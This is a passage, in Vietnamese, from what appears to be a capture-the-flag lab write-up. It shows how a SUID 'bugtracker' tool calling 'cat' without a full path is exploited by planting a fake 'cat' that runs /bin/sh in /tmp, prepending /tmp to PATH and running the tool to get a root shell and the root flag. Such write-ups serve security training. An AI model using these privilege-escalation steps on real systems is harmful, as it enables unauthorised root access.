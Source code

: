 Công cụ này chấp nhận đầu vào của người dùng làm tên của tệp sẽ được đọc bằng lệnh `cat`, tuy nhiên, nó không chỉ định toàn bộ đường dẫn đến tệp `cat` và do đó có thể khai thác điều này.

Điều hướng đến thư mục /tmp và tạo một tệp có tên là cat với nội dung sau:

```
/bin/sh
```

Thiết lập quyền thực thi:

```
chmod +x cat
```

Để khai thác điều này, thêm thư mục /tmp vào biến môi trường PATH.

```
PATH là biến môi trường trên các hệ điều hành giống Unix, DOS, OS/2 và Microsoft Windows, chỉ định một tập hợp các thư mục chứa các chương trình thực thi.
```

Có thể thực hiện điều đó bằng cách sử dụng lệnh sau:

```
export PATH=/tmp:$PATH
```

Bây giờ sẽ kiểm tra `$PATH`:

```
echo $PATH
```

![alt text](image-30.png)

Cuối cùng hãy chạy `bugtracker` từ thư mục `/tmp`:

![alt text](image-31.png)

Root flag có thể được tìm thấy trong thư mục `/root`:

Đã có cả hai cờ!
